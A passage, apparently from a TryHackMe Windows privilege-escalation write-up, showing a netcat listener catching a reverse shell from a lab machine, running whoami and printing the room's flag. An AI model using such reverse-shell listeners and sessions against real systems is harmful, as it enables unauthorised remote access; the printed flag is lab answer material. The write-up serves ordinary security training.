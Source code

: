 ![Reverse shell](/images/thm/windowsprivesc20/windowsprivesc20_12.png)
_Reverse shell_

Now we got the shell, we can print the flag's content :

```console
root@ip-10-10-58-45:~# nc -lnvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 10.10.40.161 49904 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr2

C:\Windows\system32>cd /Users/svcusr2/Desktop
cd /Users/svcusr2/Desktop

C:\Users\svcusr2\Desktop>type flag.txt
type flag.txt
THM{QUOTES_EVERYWHERE}
C:\Users\svcusr2\Desktop>
```
{: .nolineno }
